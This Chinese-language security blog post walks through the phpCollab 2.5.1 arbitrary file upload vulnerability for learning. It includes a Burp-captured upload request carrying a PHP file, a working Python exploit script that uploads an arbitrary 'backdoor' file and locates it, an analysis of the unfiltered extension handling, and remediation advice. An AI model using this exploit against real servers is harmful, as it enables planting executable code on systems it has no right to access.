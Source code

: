 ```yaml
---
title: phpCollab 2.5.1 - Arbitrary File Upload
date: 2017-10-13 10:43:04
tags:
		- 
categories:
		- 安全研究	
---
```


`phpCollab 2.5.1 - Arbitrary File Upload`漏洞的学习。

<!-- more -->



##### [phpCollab 2.5.1 - Arbitrary File Upload](https://www.exploit-db.com/exploits/42934/)


##### 背景介绍

看到`phpcollab`被爆出一个任意文件上传漏洞，下载下来测试学习一下，其中的漏洞利用，poc的编写，以及代码产生漏洞的原因。

[下载phpcollab](https://www.exploit-db.com/apps/dda41c5b541d7adc0b50b1fcf3bf7519-phpCollab-v2.5.1.zip)

直接在自己搭建的服务器上安装就行了。

##### 复现

必须注册一个账户，登录后台里面。在客户--客户组织--编辑处，上传文件的地方存在任意文件上传漏洞。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-10-12/79648453.jpg)

在标志处，需要上传文件。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-10-12/79648453.jpg)


F12--查看该标志文件的地址，知道在`"../logos_clients/`目录下面。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-10-12/91535998.jpg)


直接上传就可以，Burpsuite抓包，看一下。

	POST /phpcollab/clients/editclient.php?id=2&action=update&PHPSESSID=sos714moqg2obs6sc24p55hko1 HTTP/1.1
	Host: 192.168.86.194
	User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
	Accept-Encoding: gzip, deflate
	Content-Type: multipart/form-data; boundary=---------------------------17918258359334
	Content-Length: 1162
	Referer: http://192.168.86.194/phpcollab/clients/editclient.php?id=2&PHPSESSID=sos714moqg2obs6sc24p55hko1
	Cookie: tvfe_search_uid=258421f8-2e1a-4028-bed3-f686ba62c586; PHPSESSID=sos714moqg2obs6sc24p55hko1
	Connection: close
	Upgrade-Insecure-Requests: 1
	
	-----------------------------17918258359334
	Content-Disposition: form-data; name="MAX_FILE_SIZE"
	
	100000000
	-----------------------------17918258359334
	Content-Disposition: form-data; name="cn"
	
	test
	-----------------------------17918258359334
	Content-Disposition: form-data; name="add"
	
	test
	-----------------------------17918258359334
	Content-Disposition: form-data; name="client_phone"
	
	11111111
	-----------------------------17918258359334
	Content-Disposition: form-data; name="url"
	
	1111111
	-----------------------------17918258359334
	Content-Disposition: form-data; name="email"
	
	11111111234@sina.com
	-----------------------------17918258359334
	Content-Disposition: form-data; name="comments"
	
	
	-----------------------------17918258359334
	Content-Disposition: form-data; name="hourly_rate"
	
	111.00
	-----------------------------17918258359334
	Content-Disposition: form-data; name="upload"; filename="test.php"
	Content-Type: application/octet-stream
	
	<?php phpinfo();?>
	-----------------------------17918258359334
	Content-Disposition: form-data; name="extensionOld"
	
	txt
	-----------------------------17918258359334--


我们通过标志处，就可以知道上传的文件被重新命令了，但还是php后缀。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-10-12/83332319.jpg)


很多时候都是上传后的文件，路径找不到，或者文件名字被修改。但这次顺利通过其源码可以找到，然后访问。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-10-12/86380888.jpg)

##### POC编写

知道一个漏洞后，想着要自动化或者提高效率，需要写一个脚本来实现其中的功能。

POC已经给出了，学习一下其中的原理。利用`requests`实现文件的上传。

	#!/usr/bin/python
	# -*- coding:utf-8 -*-
	
	import os
	import sys 
	import requests
	
	if __name__ == '__main__':
	    if(len(sys.argv) !=4):
	        print("Enter your target,userid and path for file upload like: python phpcollab.py http://127.0.0.1/phpcollab/ 2 C:\Users\Administrator\Desktop\test.php")  #使用方法
	        
	    target = '%s/clients/editclient.php?id=%s&action=update' %(sys.argv[1],sys.argv[2]) 
	    #sys.argv[1] 第二个参数，目标地址，sys.argv[2] userid
	    print("[*] Trying to exploit with URL: %s..." % target)
	    backdoor = {'upload':open(sys.argv[3],'rb')}  #读取上传的文件内容，字典形式，键upload
	    r = requests.post(target,files=backdoor) #requests.post 上传文件
	    extension = os.path.splitext(sys.argv[3])[1] #取后缀名
	    link = "%s/logos_clients/%s%s" % (sys.argv[1],sys.argv[2],extension) #上传后文件的路径
	    r = requests.get(link)
	    if r.status_code == 200:  #判断是否上传成功
	        print("[OK] Backdoor link: %s" % link)
	    else:
	        print("[FAIL]Problem(status:%s) (link:%s)" % (r.status_code,link))
	        

利用，可以上传成功。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-10-12/89045811.jpg)

##### 漏洞分析

利用以及poc完成之后，开始从源代码分析，是哪里出现了问题。
出现漏洞的代码在 `\clients\editclient.php`里面，这就是对客户信息修改的代码文件。

	//case update client organization
	if ($id != "") 
	{
		if ($action == "update") 
		{
			if ($logoDel == "on") 
			{
				$tmpquery = "UPDATE ".$tableCollab["organizations"]." SET extension_logo='' WHERE id='$id'"; //内容的更新
				connectSql("$tmpquery");
				@unlink("../logos_clients/".$id.".$extensionOld");  #删除旧的文件
			}
	
			$extension = strtolower( substr( strrchr($_FILES['upload']['name'], ".") ,1) ); 
		// 后缀名字 substr(string,start,length)，但是没有对其进行过滤。
	
			if(@move_uploaded_file($_FILES['upload']['tmp_name'], "../logos_clients/".$id.".$extension")) 
	            //move_uploaded_file() 函数将上传的文件移动到新位置。
			{
				chmod("../logos_clients/".$id.".$extension",0666);
				$tmpquery = "UPDATE ".$tableCollab["organizations"]." SET extension_logo='$extension' WHERE id='$id'";
				connectSql("$tmpquery");
			}


##### 任意文件上传漏洞修复

1. 对上传文件格式限制，只允许某些格式文件上传。使用白名单
2. 对文件格式进行校验，前端和服务器端都需要校验。
3. 将上传文件的目录，设置权限。一般上传的都是静态文件，所以需要对其目录设置禁止执行权限。
4. 将上传的文件的名字进行随机命名。


##### 参考

[phpCollab 2.5.1 - Arbitrary File Upload](https://www.exploit-db.com/exploits/42934/)

[文件上传漏洞常见利用方式分析](https://www.2cto.com/article/201602/490414.html)

[攻防：文件上传漏洞的攻击与防御](http://www.h3c.com/cn/d_201408/839582_30008_0.htm)

[文件上传下载漏洞](http://blog.csdn.net/worn_xiao/article/details/52357167)

[文件上传检测的多种绕过姿势](http://blog.csdn.net/c465869935/article/details/51800354)

[文件上传漏洞（绕过姿势）](https://thief.one/2016/09/22/%E4%B8%8A%E4%BC%A0%E6%9C%A8%E9%A9%AC%E5%A7%BF%E5%8A%BF%E6%B1%87%E6%80%BB-%E6%AC%A2%E8%BF%8E%E8%A1%A5%E5%85%85/)
